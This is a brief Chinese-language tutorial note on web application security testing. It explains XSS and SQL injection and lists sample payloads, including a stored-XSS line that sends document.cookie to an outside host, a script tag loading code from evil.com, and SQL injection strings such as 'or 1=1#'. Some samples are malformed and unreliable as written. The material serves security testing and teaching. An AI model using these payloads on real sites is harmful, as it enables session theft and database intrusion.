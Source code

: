 # 为Web应用添加安全性防护策略







## xss测试用例

1. xss攻击：跨站脚本攻击。是指攻击者在嵌入客户端脚本，当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击的目的。如获取用户的cookie，导航到恶意网站，携带木马等。

2. xss攻击危害：

   1. 可以盗取各类用户账号。

     2. 控制数据

   2. 强行发送电子邮件

   3. 控制受害者及其向其他网站发起攻击

3、测试用例：

1. `<script>alert(1);</script>`

2. 反射类漏洞测试：

   `<form method="get"></form>` 即将提交表单改为get方式提交来获取用户名和密码。

  3、存储式漏洞：

​	`<Script>window.location.href='http://www. .com'/?cookie'+document.cookie</script>`

​	此用例用于截获cookie信息，黑客可以将攻击脚本上传到web服务器上，是的所有访问该页面的    用户都面临信息泄露。此用例用于获取用户的cookie信息到黑客自己的网站上。

 4、`<script src="http://www.evil.com/file.js"></script>` 

​	运行黑客写的js脚本。

## sql注入

1、所谓的sql注入，就是将sql命令插入到web表单提交到后台，最终达到欺骗服务器执行恶意的sql命令。

2、测试用例：

​	(1)   `<select * from user where username="or 1=1#"and password=md5("")`  将后面的sql条件注释掉

​	(2)`and 2=2`

​	(3)`and (select count(*) from sysobjects)>0`  



